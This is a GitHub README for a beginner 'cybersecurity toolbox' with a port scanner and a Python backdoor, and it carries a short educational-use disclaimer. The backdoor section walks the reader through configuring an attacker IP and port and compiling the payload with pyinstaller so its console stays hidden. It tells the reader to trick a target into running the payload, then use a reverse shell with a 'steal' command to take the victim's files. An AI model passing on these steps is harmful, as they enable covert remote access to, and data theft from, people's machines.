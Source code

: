 
# Kiddo Toolbox

A toolbox for the little ones in cybersecurity with simple UI and the set of all the basic features

## Disclaimer

The tools and software provided in this GitHub repository are intended for educational and research purposes only. The author of this repository does not condone or support any illegal activities, and the use of these tools for any malicious or unauthorized purposes is strictly prohibited.

The author does not take any responsibility for the misuse of these tools or any damage caused by their usage. It is the user's responsibility to ensure that they are using these tools in a legal and ethical manner, and to comply with all applicable laws and regulations.

By downloading and using the tools provided in this repository, you agree to use them at your own risk and accept full responsibility for any consequences that may result from their usage.

## Currently available tools

- Portscanner
- Backdoor

## Demo

- Portscanner
  
Select the single/multiple/range/subnet of targets, specify ports you're interested in, wait a sec and BOOM! You have'em all!

![portscanner demo](https://github.com/danyash17/kiddo_toolbox/blob/7c1dfdd0b433166e9f8a13cf4f1b738466a12177/project/demo/portscanner-demo.gif)

- Backdoor

Ever wanted to become a master of puppets? It's simple - just trick your target to execute a backdoor and gain a remote access to target machine!

![backdoor demo](project/demo/backdoor-demo.gif)


## Installation

- Portscanner
  
Nothing difficult - just clone and run.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
  python3 portscanner.py
```

- Backdoor
  
More difficult to set up. First, clone a repo.

```bash
  git clone https://github.com/danyash17/kiddo_toolbox.git
  cd kiddo_toolbox/project/src/toolbox/
```

After that, it's crucial to configure your **host ip** and **listening port** in payload. Do not mess up - IP must be of type **string** and PORT of type **int**.

```bash
  nano backdoor_payload.py
  ## IP = "192.168.0.100"
  ## PORT = 7777
```

So, the payload is configured. Now you need to transfer it to a target machine. You can simply put a python script *backdoor_payload.py* staight from this repo. Or, to do better, compile a binary executable to hide a console using *pyinstaller*.

```bash
  pyinstaller backdoor_payload.py --onefile --noconsole
```
After malicious delivery, be sure to run *backdoor_client.py* script to put up a listener. A payload will infinitely try to connect to client once it executed.

You see *shell* label in your console? Victory! You now have full access to a terminal of a target machine. In addition to standard bash commands this payload have 2 commands to download and upload files from/to target machine.

```bash
  shell~('192.168.0.100', 47890)steal <target_filename>
  shell~('192.168.0.100', 47890)upload <host_filename>
```

Feel free to explore it by yourself!
